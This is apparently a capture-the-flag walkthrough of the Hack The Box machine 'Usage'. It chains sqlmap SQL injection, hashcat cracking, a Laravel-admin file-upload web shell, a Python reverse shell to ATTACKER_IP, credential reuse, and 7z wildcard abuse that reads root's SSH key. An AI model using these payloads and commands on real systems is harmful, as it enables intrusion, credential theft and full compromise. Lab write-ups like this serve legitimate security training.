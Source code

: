 🔐 HTB: Usage – Writeup / Walkthrough

Difficulty: Medium
Category: Linux / Web / Privilege Escalation

🧠 TL;DR

    🐛 SQLi in password reset → Extracted admin hash

    🔓 Cracked hash → Admin login

    ☠️ CVE-2023-24249 (Laravel-admin RCE) → Reverse shell

    🔍 Found password in .monitrc → Pivoted to xander

    🔧 Sudo misconfigured binary → Wildcard 7z abuse → Read root's private key

🔍 Initial Recon

nmap -sC -sV -v <target-ip>

    🔓 Open ports: 22 (SSH) and 80 (HTTP)

Accessing http://usage.htb, I noticed a password reset functionality. Submitting an email payload like:

test@example.com'

➡️ Triggered a 500 error — potential SQL injection.
🧬 SQL Injection → Admin Credentials

Intercepted the password reset POST request with Burp Suite and saved it to reset.req.

Used SQLMap:

sqlmap -r reset.req -p mail --level 5 --risk 3 --technique=B --batch

✅ Confirmed blind SQLi, extracted DBs:

sqlmap -r reset.req --dbs

Found: usage_blog
Dumped admin credentials and cracked the hash with hashcat:

hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

🧠 Recovered the admin password → Logged in.
🖥️ RCE via Laravel-admin (CVE-2023-24249)

Admin panel disclosed Laravel-admin v1.8.18, vulnerable to arbitrary file upload.

Exploited via /users/1/edit:

    Intercepted profile update

    Replaced avatar field with shell.php payload:

<?php system($_GET['cmd']); ?>

After uploading, accessed the file and triggered RCE:

curl "http://usage.htb/uploads/shell.php?cmd=whoami"

Used a Python reverse shell from revshells.com:

python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

🎯 Shell as dash.
🔑 Lateral Movement → xander

Found .monitrc in dash's home directory → contained a password.

Tried it for xander:

su xander

✅ Successful login.
⚔️ Privilege Escalation → Root via 7z Wildcard Injection

sudo -l

Found:

(ALL) NOPASSWD: /usr/bin/usage_management

This script allowed backups using 7z, but other options failed.

Used:

strings /usr/bin/usage_management

Saw 7z a backup.7z * — vulnerable to wildcard abuse.

Used HackTricks trick:

touch '@id_rsa'
ln -s /root/.ssh/id_rsa id_rsa

Ran the backup option:

sudo /usr/bin/usage_management

💥 Contents of /root/.ssh/id_rsa were printed in terminal.

Saved the private key locally and logged in as root:

chmod 600 id_rsa
ssh -i id_rsa root@usage.htb

🏁 Flags

    user.txt → Found after reverse shell

    root.txt → Retrieved after 7z wildcard abuse

✅ Takeaways

This box was a solid combo of web exploitation + local misconfig abuse:

    SQLi → Admin access

    PHP file upload → Remote Code Execution

    Credential reuse → Lateral movement

    7z wildcard trick → Full root compromise
